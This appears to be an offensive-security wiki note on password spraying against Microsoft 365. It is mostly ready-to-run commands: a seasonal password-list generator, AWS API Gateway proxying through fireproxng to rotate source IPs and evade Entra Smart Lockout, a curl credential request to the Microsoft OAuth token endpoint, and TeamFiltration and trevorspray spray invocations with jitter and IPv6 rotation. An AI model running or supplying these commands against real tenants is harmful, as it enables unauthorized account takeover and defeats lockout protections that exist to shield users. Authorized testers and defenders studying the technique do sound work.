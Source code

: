 ```yaml
---
title: M365 Password Spraying
---
```


[[notes/m365/index]] [[notes/initial-access/index]] trough insecure passwords.

Generate a list of common passwords.

~~~ bash
exrex "($org_hq_location|Summer|Winter|Sommer|Winter|Welcome|Willkommen)($(date +%Y)|$(date -d 'last year' +%Y))\!|(Start|Password|Passwort)123\!"
~~~

Source IP rotation is required to evade Entra Smart Lockout.
For example via AWS API Gateway and [[notes/tools/fireproxng]].

~~~ bash
export AWS_ACCESS_KEY_ID=... AWS_SECRET_ACCESS_KEY=... AWS_REGION=...
fireproxng list
fireproxng create https://login.windows.net/
curl -sS -H 'Accept: application/json' -H 'User-Agent: Windows-AzureAD-Authentication-Provider/1.0' https://$proxy_id.execute-api.eu-west-1.amazonaws.com/fireprox/$tenant_id/oauth2/token --data-urlencode resource=https://graph.windows.net -d client_id=38aa3b87-a06d-4817-b275-7a316988d93b -d client_info=1 -d grant_type=password -d scope=openid --data-urlencode username=john.doe@corp.com --data-urlencode password='passw0rd'
fireproxng delete $proxy_id
~~~

Or fully automated with [[notes/tools/teamfiltration]].

~~~ bash
./TeamFiltration --outpath ./corp --config ./config.json --spray --shuffle-regions --shuffle-users --shuffle-passwords --jitter 5 --sleep-min 65 --sleep-max 70 --passwords ./passwords.txt
~~~

[[notes/tools/trevorspray]] provides a similar capability by using large IPv6 subnets.

~~~ bash
trevorspray --prefer-ipv6 --subnet dead:beef::1/48 --random-useragent --url https://login.windows.net/$tenantid/oauth2/token -u ./emails.txt -p 'Start123!'
~~~

Untested tools:

- [RagingRotator](https://github.com/nickzer0/RagingRotator), alternative to `TeamFiltration`
- [gofireprox](https://github.com/mr-pmillz/gofireprox), alternative to `fireproxng`
- [fireprox](https://github.com/ustayready/fireprox), the original
